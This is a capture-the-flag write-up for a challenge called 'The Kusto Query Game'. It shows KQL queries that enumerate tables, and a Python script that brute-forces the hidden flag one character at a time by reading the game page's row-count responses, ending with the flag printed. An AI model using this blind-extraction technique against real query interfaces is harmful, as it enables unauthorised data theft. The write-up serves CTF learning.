 ## THE KUSTO QUERY GAME

### Solution

Solving The Kusto Query Game with the following query:

```sql
StormEvents
  | where EventId in 61032, 60904, 60913, 64588
```

where the EventIds are EventIds from StormEvents, obtained from [dataexplorer.azure.com](https://dataexplorer.azure.com/clusters/help/databases/Samples). We use a [Python script](win_game.py) to generate queries that return different row counts. The dataset with IDs is available [here](event_ids.txt).

When we win the game, we are informed that the solution is located somewhere in the database, and that we need to extract the flag from the database:

![alt text](image.png)

Therefore, we find the template for what the StormEvents database looks like: [dataexplorer.azure.com](https://dataexplorer.azure.com/clusters/help/databases/Samples). This service can also be used to test KQL queries before running them on the website.

You can search for strings in all columns of a table as follows:

```sql
StormEvents | where * contains "a"
```

This lets us know how many rows contain `a`. We can use this to search for the flag:

```sql
StormEvents | where * contains "ept{"
```

This returned no results, so we check if there might be other tables to search in:

```sql
.show tables
```

The query above reveals that there are `2` tables in the database. So we try to find the name by testing typical names:

- Flag
- Flags
- Users
- Roles
- Groups

We get a match with the table `Users`. Later, we also discovered that table names can be replaced with `search *` to search all tables at once. However, since we already found the table, we just use this table name to speed up the searches. Now, we can search for the flag in the `Users` table:

```sql
Users | where * contains "ept{"
```

Here, we get 28 results. Therefore, we suspect that "fake" flags have been inserted. We narrow the search by adding `"}"` to the query:

```sql
Users | where * contains "ept{" and * contains "}"
```

Now, we get only one result, so we can confidently say this is the real flag. From here, we proceed by guessing one letter at a time in the flag until we reach `"}"`:

```python
import requests
import string
import re

def brute(url, query, word):
    for i in range(50):
        for letter in string.digits + string.ascii_lowercase + "_-?!}" + string.ascii_uppercase:
            # Replace placeholder with payload
            query_to_run = query.replace("$$", word+letter)

            response = requests.post(url, { "query": query_to_run})
            if response.status_code == 200:
                # Regex match to see if there was a result
                if re.search(r'<h2>The row count for your query was \d+', response.text):
                    word += letter
                    print(word)
                    if(letter == "}"): return word
                    break
            else:
                print("error at", word)

brute("https://kqlgame.ept.gg/game", 'Users | where * contains "$$" and * contains "}"', "ept{")
```

```bash
[Running] python3 brute.py
ept{z
ept{z2
ept{z26
ept{z264
ept{z2641
...

[Done] exited with code=0 in 38.598 seconds
```

We also found that KQL accepts regex, so it should also be possible to run the letter search with significantly fewer requests.

<details>
<summary>Flag</summary>

`ept{z2641a3a}`
</details>